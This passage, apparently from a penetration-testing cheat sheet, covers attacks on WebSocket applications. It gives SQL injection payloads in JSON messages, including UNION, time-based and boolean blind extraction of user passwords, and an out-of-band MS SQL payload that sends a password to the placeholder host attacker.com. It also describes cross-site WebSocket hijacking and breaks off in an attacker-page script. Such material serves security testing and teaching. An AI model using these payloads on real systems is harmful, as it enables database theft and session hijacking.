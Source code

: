  - **SQL injection via WebSockets**
    
    - **Testing for SQL injection**
      - Inject SQL syntax into message parameters
      - Look for error messages or behavioral changes
      - Example payloads:
        ```json
        {"userId":"1' OR '1'='1"}
        {"search":"test' UNION SELECT username,password FROM users--"}
        ```
    
    - **Blind SQL injection techniques**
      - Time-based detection:
        ```json
        {"userId":"1'; IF (1=1) WAITFOR DELAY '0:0:5'--"}
        ```
      - Boolean-based detection:
        ```json
        {"userId":"1' AND (SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id=1)>90--"}
        ```
    
    - **Extracting data via WebSockets**
      - Combine SQL injection with out-of-band techniques
      - Example OAST payload (MS SQL Server):
        ```json
        {"id":"1'; DECLARE @q VARCHAR(8000); SET @q=(SELECT TOP 1 password FROM users); EXEC('master..xp_dirtree \"//'+@q+'.attacker.com/a\"')--"}
        ```

- **Exploiting WebSocket handshake vulnerabilities**
  
  - **Cross-site WebSocket hijacking (CSWSH)**
    
    - **Identifying CSWSH vulnerabilities**
      - Test if WebSocket handshake lacks CSRF protection
      - Check if authentication relies solely on cookies
      - Example vulnerable handshake request:
        ```http
        GET /socket HTTP/1.1
        Host: vulnerable-website.com
        Upgrade: websocket
        Connection: Upgrade
        Cookie: session=AUTHENTICATED_SESSION_COOKIE
        Sec-WebSocket-Key: ...
        Sec-WebSocket-Version: 13
        Origin: https://vulnerable-website.com
        ```
      - Missing CSRF token in the request indicates potential vulnerability
    
    - **Exploiting CSWSH**
      - Create an HTML page on an attacker-controlled site:
        ```html
        <script>
          var socket = new WebSocket('wss://vulnerable-website.com/socket');
          